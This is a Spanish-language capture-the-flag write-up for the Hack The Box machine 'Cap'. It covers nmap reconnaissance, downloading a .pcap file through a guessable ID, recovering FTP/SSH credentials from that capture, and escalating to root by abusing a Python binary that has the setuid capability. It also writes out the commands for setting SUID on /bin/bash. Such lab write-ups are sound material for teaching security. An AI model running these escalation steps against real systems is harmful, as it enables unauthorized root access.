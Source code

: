 ![imagen](https://user-images.githubusercontent.com/71317374/135714589-65382ded-013c-4b8a-962a-809113a2c459.png)

Cap es una máquina Linux de nivel fácil creada por [InfoSecJack](https://app.hackthebox.eu/users/52045). En ella hay que analizar unos paquetes con Wireshark y hacer uso de las [capabilities](https://www.incibe-cert.es/blog/linux-capabilities) para convertirnos en el grandioso root

Según la gente de Jak De Boxz, la máquina sería así:

![imagen](https://user-images.githubusercontent.com/71317374/135714734-01dba700-004e-4fb0-9e3b-151205a0b643.png)

Lo gracioso es que no hay que explotar ningún CVE.

1. [Reconocimiento inicial](#recon)
2. [Página web](#web)
3. [Analizando el .pcap con Wireshark](#pcap)
4. [Conseguimos root :D](#root)
# Reconocimiento inicial {#recon}

Como siempre, empezamos usando `nmap` para ver los puertos abiertos y conseguir posibles lugares por los que entrar.
```bash
# Nmap 7.92 scan initiated Sat Oct  2 13:52:07 2021 as: nmap -p- --open -sS --min-rate 4000 -n -vv -oN scan 10.10.10.245
Nmap scan report for 10.10.10.245
Host is up, received echo-reply ttl 63 (0.40s latency).
Scanned at 2021-10-02 13:52:07 CEST for 26s
Not shown: 41525 closed tcp ports (reset), 24007 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sat Oct  2 13:52:33 2021 -- 1 IP address (1 host up) scanned in 26.59 seconds
```

Hmm, puerto 21 abierto, podríamos intentar entrar como el usuario `anonymous`. De momento vamos a hacer un escaneo en profundidad...

```bash
# Nmap 7.92 scan initiated Sat Oct  2 13:54:06 2021 as: nmap -sCV -p21,22,80 -oN targeted 10.10.10.245
Nmap scan report for 10.10.10.245
Host is up (0.051s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sat, 02 Oct 2021 11:54:22 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sat, 02 Oct 2021 11:54:17 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sat, 02 Oct 2021 11:54:17 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, OPTIONS, GET
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
<fingerprint muy larga>
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct  2 13:56:17 2021 -- 1 IP address (1 host up) scanned in 131.53 seconds
```
| Puerto       | Servicio                              |
 |:-------      |:-----------------------------------   |
 | 21           | FTP    |
 | 22         | SSH, para obtener una shell segura    |
 | 80         | Gunicorn |


# Página web {#web}
Entrar al FTP con las credenciales `anonymous: ` no funcionó, así que nos centraremos en la página web. Lo primero que nos encontramos al entrar es esto:

![imagen](https://user-images.githubusercontent.com/71317374/135715330-d77dc314-8f5b-49dc-9f95-ac130ca1adbb.png)

La Security Snapshot parece interesante, pinchamos y tenemos esto:

![imagen](https://user-images.githubusercontent.com/71317374/135715405-426ad6b1-c238-4d55-be90-2aaeecc76ee1.png)

Si le diéramos a Download, nos descargaría un archivo .pcap. También usa un número para identificar al archivo, así que tiene que haber un archivo 0, 1, etc.
Si probamos con el 0:

![imagen](https://user-images.githubusercontent.com/71317374/135715477-10ce33cb-c48e-46d0-98c0-2417e2c02f31.png)

Existe, así que lo descargamos y nos abrimos wireshark para ver si tuviera algo interesante, como unas credenciales.

# Analizando el .pcap con Wireshark {#pcap}

![imagen](https://user-images.githubusercontent.com/71317374/135715540-533be66c-d680-48b8-8eea-7ad67ea4130a.png)

Solamente al abrirlo hay algo interesante, un login en el FTP y unas credenciales :O, que serían `nathan:Buck3tH4TF0RM3!`, y tenemos un FTP y además un SSH abierto, igual las credenciales son válidas para ambos.
Si probamos a usarlas contra el SSH son válidas, así que estaríamos ya dentro y puedes recoger la user flag y llevártela a HTB para meterla por donde le quepa.

# Conseguimos root :D {#root}

Tras estar un rato enumerando, no saqué nada :/, hasta que encontré lo que eran las capabilities, una alternativa al SUID y al `sudo`: https://www.incibe-cert.es/blog/linux-capabilities(está también por arriba)
Para encontrar las capabilities de los archivos, hay que ejecutar el comando `getcap -r / 2>/dev/null`. la parte de 2>/dev/null es únicamente para enviar todos los errores al [/dev/null](https://linuxhint.com/what_is_dev_null/)

![imagen](https://user-images.githubusercontent.com/71317374/135716260-231d9332-d445-4156-ac37-562547482079.png)

Python con capability para cambiarte de usuario a voluntad, qué bien configurado...

```bash
nathan@cap:~$ python3.8
Python 3.8.5 (default, Jan 27 2021, 15:41:15)
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system('whoami')
root
0
```

Y así te convertirías en root, para salir de python y usar una bash como root podrías ejecutar lo siguiente: `os.system("chmod 4755 /bin/bash")` para asignarle el privilegio SUID(SetUID) a la /bin/bash.
Entonces, si ahora ejecutas `bash -p` te conviertes en root y puedes recoger tu premio en la meta, /root.

Ha sido una máquina divertida, que explota algo que no se suele mirar, las capabilities, que no sabía qué eran xD.

Si te ha gustado dame una estrellita, un follow o algo en mi [github](github.com/binlaab), que no te cuesta nada, dale.
